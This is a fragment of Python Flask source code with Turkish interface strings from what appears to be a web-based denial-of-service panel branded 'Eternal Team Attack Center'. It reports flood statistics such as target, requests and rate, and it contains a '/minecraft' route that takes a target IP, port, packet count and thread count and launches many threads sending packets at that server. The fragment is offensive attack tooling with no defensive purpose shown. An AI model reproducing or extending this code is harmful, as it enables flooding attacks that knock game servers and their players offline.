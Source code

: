 🎯 Hedef: {target}
💥 Toplam İstek: {count:,}
⚡ Thread Sayısı: {thread_count}
✅ Başarılı: {total_success:,}
❌ Başarısız: {total_fail:,}
⏱️ Süre: {duration} saniye
🔥 Hız: {rate:,} istek/saniye

🏆 Eternal Team Attack Center tarafından gerçekleştirildi!"""

    username = session['username']
    logs = load_logs().get(username, [])
    logs.reverse()
    user_stats = get_user_stats(username)

    return render_template_string(DASHBOARD_HTML, username=username, logs=logs, result=result_text, user_stats=user_stats)

@app.route("/minecraft", methods=["POST"])
def minecraft_attack():
    if 'username' not in session:
        return redirect('/auth')

    ip = request.form.get("mc_ip")
    port = int(request.form.get("mc_port", 25565))
    count = int(request.form.get("mc_count", 2000))
    thread_count = int(request.form.get("mc_threads", 30))

    # Güvenlik kontrolleri
    if count > 50000:
        count = 50000
    if thread_count > 100:
        thread_count = 100

    results = []
    threads = []
    packets_per_thread = count // thread_count

    start_time = time.time()

    for i in range(thread_count):
        thread_packets = packets_per_thread
        if i == thread_count - 1:
            thread_packets += count % thread_count

        thread = threading.Thread(target=send_mc_packets, args=(ip, port, thread_packets, results))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

    end_time = time.time()
    total_success = sum(r[0] for r in results)
    total_fail = sum(r[1] for r in results)
    duration = round(end_time - start_time, 2)
    rate = round(count/duration, 2)
